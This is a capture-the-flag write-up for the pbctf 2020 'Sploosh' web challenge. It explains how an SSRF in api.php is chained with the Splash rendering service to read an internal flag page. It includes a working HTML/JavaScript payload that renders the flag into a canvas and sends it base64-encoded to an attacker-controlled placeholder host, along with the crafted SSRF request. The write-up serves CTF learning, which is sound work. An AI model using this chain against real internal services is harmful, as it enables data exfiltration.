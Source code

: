 ## Sploosh - Web challenge - pbctf 2020
## Author: p4w@beerpwn
### Twitter: https://twitter.com/p4w16

## TL;DR
This challenge is about exploiting an __SSRF__ vulnerability along with __Splash__ (javascript rendering service).

## Challenge description
![img desc](screen/desc.png)


## Solution
Once connected to the challenge, the index page show a link where it is possible to download the source code.
Here it follow the docker configuration file for the challenge:
![img desc](screen/docker_compose.png)

The application is pretty simple, basically we have 3 file: __index.php__, __flag.php__ and __api.php__.
The __index.php__ page doesn't contain anything important, so I'll only show the __api.php__ and __flag.php__ pages.
<br>

This is the source for __api.php__
![img desc](screen/api.png)

and this the source code of __flag.php__
![img desc](screen/flag_source.png)

As we can see in __api.php__, it's possible to control the `url` GET parameter and if it is passed, then script will execute `file_get_contents` with the `http` wrapper to the host `splash`.
With a bit of googling it's possible to discover the service behind the scene. The repository of the splash project can be found here
* https://github.com/scrapinghub/splash

As it is possible to observe that to get the flag it's necessary to request the `flag.php` file, but the flag will be printed out only if the remote address that is requesting the resource is __172.16.0.13__ or __172.16.0.14__. At this point and considering what we have I start to thinking that I need some kind of __SSRF__ to retrieve the flag. Trigger the __SSRF__ is pretty easy in this situation, since no check is made on the `url` parameter, we can just pass arbitrary address in it. Problem is that the __SSRF__ is blind, I'm going to show what I mean with some screen.

![img desc](screen/google_req.png)

Here for example I used google.com domain as endpoint, but in the response we don't have all the page contents retrieved from google, instead only the geometry is present. At this point I start to looking more closely to the __Splash__ documentation (https://splash.readthedocs.io/en/stable/api.html).
Also referring to the `api.php` resource, it's possible to notice that the `url` parameter is __urlencoded__ before concatenation, this stop us to directly inject additional parameters on the query itself (`& -> %26`).
By reading the documentation we can notice that the __Splash API__ can be used along with many parameters. The first one that caught my attention was the `lua_source` parameter that can be passed to the `/execute` API endpint to run custom lua script. Searching more information about that I discover this article https://paper.seebug.org/354/ that explain how __Splash__ works. One thing that tell us is that we can't actually run arbitrary lua code since is sand-boxed for security reason.
Before going more in deep on the __Splash API__, let's see how it is possible to full control a request over the splash endpoint by exploiting the `url` parameter. The trick is simple we can just pass a full request to the internal address:
* `url=http://172.16.0.13:8050/render.html%3furl=http://example.com/`

With this payload it is possible to force the the application to make a request to the `render.html` API endpoint that will generate another request to the domain `example.com`. Let's verify that:

![img desc](screen/webhook_req.png)
![img desc](screen/webhook.png)

Works fine, at this point I know that I was able to to fully control a request to the splash endpoint along with any parameter I want to use. The first idea was to use the `lua_source` parameter to inject some lua script to leak the flag. I tried that solution, unfortunately I fail so I start to read more documentation.
The __Splash__ service have many endpoints that can be used to fetch pages such as `/render.jpeg`.

![img desc](screen/render_jpeg_docs.png)

At this point I start to think for a chain that can be used to retrieve the flag by using this functionality. The basic idea that I had was to embed an `<img>` tag in a page controlled by me and pointing to the `/render.jpeg` endpoint with the `url` parameter `http://172.16.0.14/flag.php`. After that I can leak the contents with some JavaScript code.

This is the code I used to do that:

```
<html>
  <body>
    <script>
      function exfil(){
        var c = document.getElementById("myCanvas");
        var ctx = c.getContext("2d");
        var img = document.getElementById("preview");
        ctx.drawImage(img, 30, 30);
        var i = new Image();
        i.src="http://<yourdomain-here>:9999/exfil?data="+btoa(c.toDataURL());
      }
    </script>
    <img id="preview" src="http://172.16.0.13:8050/render.jpeg?url=http://172.16.0.14/flag.php" onload="exfil()">
    <canvas id="myCanvas" />
  </body>
</html>
```

To make this work, I just play a bit with the `api.php` page and come up with this payload:
```
GET /api.php?url=http://172.16.0.13:8050/render.html%3furl=http://<yourdomain-here>:8000/exploit.php%26allowed_domains=beerpwn.it HTTP/1.1
...
```
basically the first request goes to the `/render.json` endpoint that is used inside the `api.php`, then a request for `/render.html` is generated along with the `url` parameter pointing to my domain where I hosted the page showed before is hosted.
You can look the exploit working during the CTF in the screenshots below.

![img desc](screen/SSRF.png)
![img desc](screen/recv_connection.png)
![img desc](screen/flag_recv.png)

After that we can just decode the base64 and we get the flag rendered in a jpeg file!

![img desc](screen/flag.png)
